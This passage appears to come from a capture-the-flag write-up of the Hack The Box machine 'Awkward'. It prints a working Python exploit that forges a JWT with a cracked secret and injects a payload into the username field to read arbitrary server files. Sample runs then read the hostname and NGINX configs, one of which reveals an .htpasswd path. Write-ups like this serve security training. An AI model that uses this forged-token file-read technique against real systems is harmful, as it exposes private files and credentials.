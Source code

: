     import jwt
    import requests
    import sys
    
    
    secret = "123beany123"
    userdata = {"username": f"/' {sys.argv[1]} '/0xdf"}
    token = jwt.encode(userdata, secret)
    
    resp = requests.get(
        "http://hat-valley.htb/api/all-leave", cookies={"token": token.decode()}
    )
    
    if len(sys.argv) == 3 and sys.argv[2] == "DOWNLOAD":
        with open(sys.argv[1].split("/")[-1], "wb") as f:
            f.write(resp.content)
    
    else:
        print(resp.text)
    

It works:

    
    
    oxdf@hacky$ python read_file.py /etc/hostname
    awkward
    

### Enumerating via File Read

#### Webserver

My first thought is to look for files on the webserver. I can pull the
`default` NGINX config:

    
    
    oxdf@hacky$ python read_file.py /etc/nginx/sites-enabled/default | grep -v "#" | grep .
    server {
            listen 80 default_server;
            listen [::]:80 default_server;
            root /var/www/html;
            index index.html index.htm index.nginx-debian.html;
            server_name _;
            location / {
                    try_files $uri $uri/ =404;
            }
    }
    

Nothing interesting there. If I can guess the name for the store site, I can
see it’s a PHP site and it’s root dir:

    
    
    oxdf@hacky$ python read_file.py /etc/nginx/sites-enabled/store.conf | grep -v "#" | grep .
    server {
        listen       80;
        server_name  store.hat-valley.htb;
        root /var/www/store;
        location / {
            index index.php index.html index.htm;
        }
        location ~ \.php$ {
            auth_basic "Restricted";
            auth_basic_user_file /etc/nginx/conf.d/.htpasswd;
            fastcgi_pass   unix:/var/run/php/php8.1-fpm.sock;
            fastcgi_index  index.php;
            fastcgi_param  SCRIPT_FILENAME  $realpath_root$fastcgi_script_name;
            include        fastcgi_params;
        }